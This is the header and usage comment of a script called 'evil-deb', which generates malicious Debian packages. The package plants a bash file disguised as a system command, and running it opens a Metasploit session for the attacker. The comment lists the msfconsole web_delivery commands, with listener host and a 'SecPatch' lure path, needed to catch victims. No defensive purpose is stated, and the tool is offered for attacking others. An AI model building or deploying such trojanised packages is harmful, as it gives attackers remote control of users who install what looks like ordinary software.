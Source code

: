 # _______          _________ _         ______   _______  ______  
#(  ____ \|\     /|\__   __/( \       (  __  \ (  ____ \(  ___ \ 
#| (    \/| )   ( |   ) (   | (       | (  \  )| (    \/| (   ) )
#| (__    | |   | |   | |   | | _____ | |   ) || (__    | (__/ / 
#|  __)   ( (   ) )   | |   | |(_____)| |   | ||  __)   |  __ (  
#| (       \ \_/ /    | |   | |       | |   ) || (      | (  \ \ 
#| (____/\  \   /  ___) (___| (____/\ | (__/  )| (____/\| )___) )
#(_______/   \_/   \_______/(_______/ (______/ (_______/|/ \___/ 1.0v.
#                                                               
#                         Malicious Debain Package Creator
#                         WebSite :: http://www.haxkur.tk/
#			                               By: @Killerpop

##
# Information :::

#evil-deb is a script which generates Malicious debian package for metasploit
#which consists of bash file. the bash file is deployed into "/usr/local/bin/" directory.
#Bash file injects and acts like some system command which when executed by victim
#and attacker hits with session.

#evil-deb basically depends upon web_delivery module and every thing is automated.
#all the attacker needs is to do following settings :

#NOTE :: This project was made to be integrated with Venom Shellcode Generator 1.0.13.
#       It can be used standalone also all user needs is to change uripath in msf variables

#msf exploit(web_delivery) > set srvhost 192.168.0.2
#srvhost => 192.168.0.102
#msf exploit(web_delivery) > set uripath SecPatch
#uripath => SecPatch
#msf exploit(web_delivery) > set uripath /SecPatch
#uripath => /SecPatch
#msf exploit(web_delivery) > set Lhost 192.168.0.2
#Lhost => 192.168.0.102
#msf exploit(web_delivery) > show options
#msf exploit(web_delivery) > exploit

#Thanks for helping the project. By: @Killerpop
    -------------------------------------------------------------------------------------
    
    Tested on :
                Linux Mint 17.2 Cinnamon (Ubuntu 14.04) 
                ParrotOS (Debian Jessie)
                Kali Rolling 2017.3
                BackBox Linux 5
                Ubuntu 16.04
# Updates :::
       1.0v.
   
